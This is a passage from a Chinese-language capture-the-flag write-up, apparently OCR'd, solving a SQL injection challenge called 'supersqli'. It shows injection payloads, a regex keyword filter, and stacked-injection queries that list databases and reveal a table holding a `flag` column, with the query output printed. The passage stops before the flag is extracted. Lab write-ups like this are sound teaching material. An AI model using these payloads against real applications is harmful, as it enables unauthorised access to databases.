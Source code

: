 *   上述键值对对我们的分析没有什么帮助，说明该查询不会查询到`flag`，尝试通过联合注入获得。
*   输入`1' order by 2#`得到响应，说明查询参数有两个。
*   使用参数位置查看当前数据库`1' union select 1,database();#`，发现`select`被正则过滤。

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject); 
```

## 解题过程

*   相当于联合注入被屏蔽了，不过可以尝试堆叠注入，使用`';show databases;`得到输出。

```
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
} 
```

*   此处我查看了三个可疑的数据库，最后找到`supersqli`中有个表叫做`1919810931114514`，查看列名后发现有个列名就是`flag`。

```
 ';use supersqli;show columns from `1919810931114514`; 
```

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
} 
```
